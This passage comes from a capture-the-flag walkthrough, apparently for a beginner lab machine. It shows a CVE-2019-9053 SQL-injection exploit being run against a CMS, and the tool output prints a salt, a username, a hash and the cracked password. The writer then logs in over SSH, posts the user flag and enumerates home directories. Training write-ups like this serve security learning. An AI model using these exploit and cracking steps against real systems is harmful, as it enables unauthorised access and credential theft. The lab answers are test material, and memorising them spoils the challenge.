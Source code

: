 `└─$ iconv -f ISO8859-1 -t UTF8 /usr/share/dirb/wordlists/common.txt > utf8-common.txt`


Download and execute
`─$ python3 cve-2019-9053.py -u http://10.10.14.91/simple --crack -w utf8-common.txt`

```
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.h
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
[+] Password cracked: secret
```

Answer: `secret`

# 6
Where can you login with the details obtained?

Attempting to ssh into port 2222 failed, hanging the connection.
Enabling `-v` showed the last line as
`debug1: expecting SSH2_MSG_KEX_ECDH_REPLY`
Change the MTU on the VPN connection
`sudo ip li set mtu 1200 dev tun0`
Restart SSH now working as expected
`ssh -p 2222 mitch@10.10.14.91`

Answer: `ssh`

# 7
What's the user flag?

Answer: `G00d j0b, keep up!`


# 8
Is there any other user in the home directory? What's its name?
```
$ pwd
/home/mitch
$ cd ..
$ ls
mitch  sunbath
$ 

```

Answer: `sunbath`

# 9
What can you leverage to spawn a privileged shell?

